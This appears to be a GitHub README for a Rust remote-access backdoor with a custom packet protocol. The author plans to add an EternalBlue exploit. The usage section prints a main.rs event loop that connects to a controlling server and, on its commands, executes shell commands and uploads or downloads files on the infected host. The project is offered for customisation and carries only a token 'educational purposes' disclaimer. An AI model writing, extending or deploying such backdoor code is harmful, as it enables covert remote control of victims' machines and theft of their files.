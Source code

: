 # Project Overview

## Introduction

This project stems from my interest in protocols and security, leading to the creation of a small backdoor and a proprietary protocol. The project is currently in development, with the backdoor's functionality completed and exploitation being implemented. I plan to use the EternalBlue exploit, and the entire backdoor and exploits are being developed exclusively in the Rust programming language.

**Note:** This project is still in progress.

## Features

- **Backdoor Functionality:** The backdoor's core functionality is complete and can be found in the `main.rs` file.
- **Exploits:** Exploits are being implemented in the `exploits.rs` file, currently featuring code for executing commands.
- **Dedicated Protocol:** The backdoor utilizes a dedicated protocol implemented in the `stprotocol.rs` file. It supports basic functionalities such as file upload, file download, and command execution.
- **Packet Structure:** The `structure.rs` file is dedicated to packet construction for the proprietary protocol, supporting packet conversion, serialization, and deserialization.

## Usage

### Backdoor

This project currently performs only basic functionalities.
However, if you wish to customize this project, please read the following guidelines. Below is an example code:

```
mod exploits;
mod stprotocol;
mod structure;

use exploits::{Exploits, Malware};
use std::thread;
use stprotocol::{Client, Session};
use structure::{Detector, Generator, StoneTransferProtocol, StructStone};

fn main() {
    let handle_server = thread::spawn(|| {
        event_loop(
            Session::new("127.0.0.1:6974".to_string()),
            StructStone::default(),
        )
    });

    handle_server
        .join()
        .expect("Connection to server is lost for unknown reasons. Backdoor terminated.");
}

fn event_loop(mut client: Session, mut packet: StructStone) {
    let mut exploit = Exploits::default();
    loop {
        // Loop for continuous communication with the server after creating a session

        packet = client.receiving(StructStone::default()); // Wait for the server's response after connection request

        println!("Server response type: {:?}", packet.get_type());

        match packet.get_type() {
            // Generate requests based on the server's response type
            StoneTransferProtocol::ExecuteCmd => {
                // If the type is ExecuteCmd
                client.exploit(exploit.command(packet));
            }
            StoneTransferProtocol::Download => {
                // If the type is Download
                client.download(packet);
            }
            StoneTransferProtocol::Upload => {
                // If the type is Upload
                client.upload(packet);
            }
            StoneTransferProtocol::Disconnect => {
                client.disconnect();
                break;
            }
            // If the server's response is Disconnect, terminate the connection

            _ => client.send(packet.get_stone()),
                    // If the response type is not mentioned above, send a request similar to the server's response
        };
    }
}
```

1. **main.rs:** Contains the core functionalities of the backdoor.
2. **exploits.rs:** Manages the implementation of backdoor exploits.
3. **stprotocol.rs:** Houses the backdoor's proprietary protocol, supporting features like file upload, file download, and command execution.
4. **structure.rs:** Provides packet configuration for the protocol, including packet conversion, serialization, and deserialization.

### Customization

If you wish to customize this project, you can modify the code in the respective files: exploits.rs, stprotocol.rs, and structure.rs. Follow the provided comments for guidance.

Feel free to tailor the code to your specific requirements and functionalities. Remember to consider security implications and best practices when making changes.

Note: Ensure that your modifications comply with ethical standards and legal regulations. Unauthorized use of this code for malicious purposes is strictly prohibited.

## Python Server

This project includes a dedicated Python server. If you want the Python server, please visit [JustServer](https://github.com/3QNRpDwD/JustServer).

## How to Contribute

1. Fork this repository.
2. Create a new branch (`git checkout -b feature/new-feature`).
3. Make your changes (`git commit -am 'Add new feature'`).
4. Push to the branch (`git push origin feature/new-feature`).
5. Open a Pull Request.

## License

Open Source

**Disclaimer:** This project is for educational purposes only. Unauthorized use is strictly prohibited.
